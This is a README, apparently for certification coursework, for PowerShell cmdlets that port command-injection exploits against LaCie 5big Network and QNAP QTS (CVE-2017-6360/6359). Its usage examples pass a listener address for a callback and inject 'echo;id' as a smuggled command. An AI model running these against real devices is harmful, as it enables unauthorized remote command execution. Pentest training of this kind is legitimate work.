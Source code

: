 # Command Injection exploits

The following two comlets are based on exploits from exploitDB and have been ported to powershell.

The first exploit is for LaCie 5big Network 2.2.8 Command Injection, based on Timo Sablowski.

The second is for CVE-2017-6360 and CVE-2017-6359 for the QNAP QTS web user interface.

This blogpost has been created for completing the requirements of the SecurityTube PowerShell for Penetration Testers Certification Exam:
http://www.securitytube-training.com/online-courses/powershell-for-pentesters/
Student ID: PSP-3237

## Link

Code is located at https://github.com/tubesurf/PSPT

## Getting Started

Try and find a QNAP or a LACIE to play with...

## Example

Commands to run the commandlet...

```
PS C:> Command-Inject-LACIE -baseurl https://10.0.0.1:8443 -listner 192.168.1.1 -port 8080

PS C:> Command-Inject-QNAP -baseurl https://10.0.0.1 -method CVE-2017-6360 -command "echo;id"
PS C:> Command-Inject-QNAP -baseurl https://10.0.0.1 -method CVE-2017-6359 -command "echo;id"

```

## Acknowledgments


Timo Sablowski for the LaCie command injection exploit
* https://www.exploit-db.com/exploits/43226/

Encode special charaters, thanks to Prateik Singh
* https://geekeefy.wordpress.com/2017/05/26/encodedecode-your-url-with-powershell/
